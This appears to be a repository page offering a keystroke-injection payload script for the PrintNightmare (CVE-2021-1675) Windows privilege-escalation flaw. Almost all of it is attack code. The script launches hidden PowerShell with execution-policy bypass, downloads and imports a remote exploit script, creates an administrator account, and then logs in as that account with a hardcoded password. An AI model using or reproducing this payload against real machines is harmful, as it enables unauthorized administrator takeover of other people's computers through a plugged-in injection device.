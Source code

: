 **CVE-2021-1675**

CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create administrative user and spawn a command prompt as the new administrative user.

Reference https://github.com/calebstewart/CVE-2021-1675
```REM CVE-2021-1675 - PrintNightmare LPE (PowerShell) -- Create administrative user and spawn a command prompt as the new administrative user.
GUI r
DELAY 150
STRING powershell -NoP -NonI -W Hidden -Exec Bypass "IEX (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1',\"$env:temp\cve20211675.ps1\"); Import-Module \"$env:temp\cve20211675.ps1\"; Invoke-Nightmare"
ENTER
DLEAY 1000
GUI r
DELAY 150
STRING cmd
DELAY 150
ENTER
DELAY 150
STRING runas /user:adm1n cmd.exe
ENTER
DELAY 150
STRING P@ssw0rd
DELAY 150
ENTER
```